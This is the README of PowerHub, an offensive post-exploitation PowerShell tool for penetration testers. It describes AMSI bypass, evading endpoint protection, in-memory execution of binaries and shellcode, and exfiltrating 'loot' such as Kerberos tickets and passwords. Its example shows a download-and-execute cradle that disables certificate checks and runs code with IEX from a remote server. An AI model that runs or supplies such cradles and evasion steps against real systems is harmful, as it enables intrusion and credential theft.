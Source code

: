 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs

![PowerHub Webapp](docs/img/powerhub-webapp.png)
![PowerHub Webapp](docs/img/powerhub-sharphound.png)

During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```ps1con
PS C:\Users\avollmer> [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$Nxois='bZeVBC4vZfakT5SmCcaFam6IRY6UNLnC';$Plukgmio=New-Object Net.WebClient;IEX $Plukgmio.DownloadString('https://192.168.11.2:8443/')
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
2.0.0                       written by Adrian Vollmer, 2018-202
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView

Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```

Documentation
=============

Read the docs [here](https://adrianvollmer.github.io/PowerHub/).

* **Installation:** <https://adrianvollmer.github.io/PowerHub/latest/installation.html>
* **Usage:** <https://adrianvollmer.github.io/PowerHub/latest/usage.html>
* **Contributing:** <https://adrianvollmer.github.io/PowerHub/latest/contrib.html>
* **Changelog:** <https://adrianvollmer.github.io/PowerHub/latest/changelog.html>


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author and License
==================

Adrian Vollmer, 2018-2023. MIT License.

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
